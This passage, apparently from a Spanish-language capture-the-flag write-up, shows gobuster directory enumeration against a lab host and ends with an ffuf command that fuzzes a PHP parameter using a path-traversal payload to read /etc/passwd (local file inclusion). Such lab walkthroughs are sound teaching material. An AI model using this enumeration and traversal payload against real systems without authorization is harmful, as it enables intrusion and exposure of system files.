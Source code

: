 ```
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/n3gr4                (Status: 200) [Size: 4]
/n3gr4                (Status: 200) [Size: 4]
Progress: 512 / 516 (99.22%)
===============================================================
Finished
===============================================================
```

Veremos que hemos conseguido encontrar un directorio web bastante interesante, vamos a realizar `fuzzing` dentro del mismo con el mismo diccionario.

```shell
gobuster dir -u http://<IP>/n3gr4 -w converted_dic.txt -x html,php,txt -t 50 -k -r
```

Info:

```
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.5.31/n3gr4
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                converted_dic.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              html,php,txt
[+] Follow Redirect:         true
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/m414nj3.php          (Status: 500) [Size: 0]
Progress: 512 / 516 (99.22%)
===============================================================
Finished
===============================================================
```

Veremos que hemos encontrado un `.php` pero el cual nos da un `500` de error, por lo que vamos a realizar un poco de `fuzzing` para intentar ver si tuviera alguna vulnerabilidad de poder leer archivos del sistema `LFI`.

### FFUF

```shell
ffuf -u 'http://<IP>/n3gr4/m414nj3.php?FUZZ=../../../../../../../etc/passwd' -w <WORDLIST> -fs 0
```

